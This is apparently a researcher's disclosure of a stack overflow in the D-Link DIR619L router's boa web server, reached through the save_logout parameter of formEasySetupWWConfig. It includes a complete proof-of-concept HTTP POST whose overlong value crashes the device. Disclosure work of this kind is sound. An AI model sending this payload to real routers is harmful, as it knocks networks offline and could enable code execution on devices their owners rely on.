

# D-Link Vulnerability

Vendor:D-Link

Product:DIR619L

Version:2.06B01

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)


## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `boa` binary:

In the router's `formEasySetupWWConfig` function, `save_logout` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `save_logout` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `save_logout` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `save_logout` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/formEasySetupWWConfig HTTP/1.1
Host: 192.168.100.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1157
Origin: http://192.168.100.1
Connection: close
Referer: http://192.168.100.1/Basic/Networkmap.asp?t=1749223752271
Upgrade-Insecure-Requests: 1

settingsChanged=1&config.wan_force_static_dns_servers=false&config.wan_l2tp_use_dynamic_carrier=true&config.wan_pptp_use_dynamic_carrier=true&config.pptp_mac_cloning_enabled=true&config.l2tp_mac_cloning_enabled=true&pptp_mac_clone=&l2tp_mac_clone=&curTime=1749223782696&config.wireless.ieee8021x_enabled=false&security_type_radio=1&save_logout=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&config.wan_type=1&config.pppoe_username=&config.pppoe_password=&config.wan_ip_address=0.0.0.0&config.wan_subnet_mask=255.255.255.0&config.wan_gateway=0.0.0.0&config.wan_primary_dns=0.0.0.0&config.wan_secondary_dns=0.0.0.0&wan_pptp_use_dynamic_carrier_radio=true&config.wan_pptp_server=0.0.0.0&config.wan_pptp_username=&config.wan_pptp_password=WDB8WvbXdHtZyM8Ms2RENgHlacJghQy&config.pptp_mac_cloning_address=00%3A00%3A00%3A00%3A00%3A00&wan_l2tp_use_dynamic_carrier_radio=true&config.wan_l2tp_server=0.0.0.0&config.wan_l2tp_username=&config.wan_l2tp_password=WDB8WvbXdHtZyM8Ms2RENgHlacJghQy&config.l2tp_mac_cloning_address=00%3A00%3A00%3A00%3A00%3A00&config.wan_dhcpplus_username=&config.wan_dhcpplus_password=WDB8WvbXdHtZyM8Ms2RENgHlacJghQy&config.wireless.SSID=D-Link_DIR-619L&config.wlan_password=abc123123123
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
